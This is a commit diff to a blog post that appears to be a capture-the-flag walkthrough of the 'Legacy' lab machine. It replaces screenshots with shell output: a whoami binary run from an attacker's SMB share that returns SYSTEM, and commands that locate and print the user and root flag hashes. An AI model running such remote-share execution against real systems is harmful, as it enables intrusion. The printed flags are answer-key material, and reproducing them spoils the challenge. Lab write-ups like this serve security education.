

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-16-legacy.md, in a window 1280 px wide and 1400 px high, scrolled down 4513 px, cut to the strip 0-930 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-16-legacy.md
+++ b/_posts/2020-07-16-legacy.md
@@ -220,7 +220,11 @@ Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
 [*] Config file parsed
 ```
 
-![](/assets/imgs/legacy/whoami.PNG)
+```python
+C:\>\\10.10.14.4\liodeus\whoami.exe
+\\10.10.14.4\liodeus\whoami.exe
+NT AUTHORITY\SYSTEM
+```
 
 So we have "root" access, nice !
 
@@ -230,8 +234,24 @@ So we have "root" access, nice !
 
 ### User.txt
 
-![](/assets/imgs/legacy/user.PNG)
+```python
+C:\>dir /b/s user.txt
+dir /b/s user.txt
+C:\Documents and Settings\john\Desktop\user.txt
+
+C:\>type "C:\Documents and Settings\john\Desktop\user.txt"
+type "C:\Documents and Settings\john\Desktop\user.txt"
+e69af0e4f443de7e36876fda4ec7644f
+```
 
 ### Root.txt
 
-![](/assets/imgs/legacy/root.PNG)
+```python
+C:\>dir /b/s root.txt
+dir /b/s root.txt
+C:\Documents and Settings\Administrator\Desktop\root.txt
+
+C:\>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
+type "C:\Documents and Settings\Administrator\Desktop\root.txt"
+993442d258b0e0ec917cae9e695d5713
+```
````
